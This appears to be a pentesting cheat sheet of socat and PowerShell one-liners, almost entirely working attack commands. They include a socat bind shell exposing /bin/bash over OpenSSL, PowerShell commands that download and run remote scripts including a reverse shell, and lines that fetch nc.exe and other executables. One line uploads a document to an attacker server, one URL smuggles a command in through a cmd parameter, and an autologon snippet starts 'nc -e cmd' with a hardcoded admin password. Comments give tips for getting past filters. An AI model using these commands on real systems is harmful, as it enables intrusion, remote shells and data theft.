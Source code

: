 ## socat
```py
sudo socat TCP4-LISTEN:443,fork file:file_to_send.txt

socat TCP4:192.168.0.10:443 file:received_file.txt, create
						// openssl req -newkey rsa:2048 -nodes -keyout myCert.key -x509 -out myCert.crt; cat myCert.key myCert.crt \> myCert.pem

sudo socat OPENSSL-LISTEN:443,cert=myCert.pem,verify=0,fork EXEC:/bin/bash			# bind shell

socat - OPENSSL:<IP-ADDRESS>:443,verify=0
```

## powershell & powercat
```c
Set-ExecutionPolicy Unrestricted

powershell -Command "$PSVersionTable.PSVersion"					                                // check powershell version

powershell -c "[Environment]::Is64BitProcess"					                                // check for 64bit powershell

cmd /c powershell -nop -exec bypass -c "iex(new-object net.webclient).downloadstring('http://10.10.10.1:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.1 -Port 8081"

powershell -c "(new-object System.Net.WebClient).DownloadFile(\"http://10.10.10.1:8000/nc.exe\",\"C:\Users\Public\Downloads\nc.exe\")"

powershell (New-Object System.Net.WebClient).UploadFile('http://10.10.10.1/upload.php', 'important.docx')

powershell -c "Invoke-Webrequest -Uri \"http:/10.10.10.1:8000/m.exe\" -OutFile \"C:\Users\Public\Downloads\m.exe\""

10.10.10.9/node/3?cmd=powershell -c IEX(New-object System.net.webclient).DownloadString('http://10.10.10.1:8000/Sherlock.ps1');Find-AllVulns		// IEX doesnt need "

echo "IEX (New-object System.net.webclient).DownloadString('http://10.10.10.1:8000/s.ps1')" | powershell -noprofile -					                                                        // might circumvent some basic filters for "powershell -c "
```

### autologon
```c
// this uses Start-Process which might get killed in whacky shells, might have to look into Start-job 
powershell -c "$SecPass = Convertto-securestring 'Welcome1!' -AsPlainText -Force;$cred=New-Object System.Management.Automation.PScredential('administrator', $SecPass);Start-Process -FilePath 'C:\Users\Public\Downloads\nc.exe' -argumentlist '-e cmd 10.10.10.1 8083' -Credential $cred"
```
